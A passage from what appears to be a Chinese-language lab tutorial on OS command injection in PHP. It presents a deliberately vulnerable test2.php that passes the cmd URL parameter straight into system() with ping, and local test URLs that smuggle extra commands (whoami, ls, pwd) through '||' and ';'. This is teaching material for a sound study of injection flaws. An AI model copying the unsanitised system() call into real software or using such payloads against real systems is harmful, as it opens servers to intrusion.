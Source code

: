 `http://127.0.0.1:9999/test1.php?cmd=whoamia||ls||pwd`

![](assets/markdown-img-paste-20180416121824127.png)

可见符号`||`是遇到正确执行的命令就会停下来,当前面出错执行后面的    



#### 测试二：

test2.php
```php
<?php
$test = $_GET['cmd'];
system("ping -c 3 " . $test);
?>
```

`http://127.0.0.1:9999/test2.php?cmd=127.0.0.1`

![](assets/markdown-img-paste-20180416122833572.png)

`http://127.0.0.1:9999/test2.php?cmd=qq;pwd`

![](assets/markdown-img-paste-20180416122939612.png)
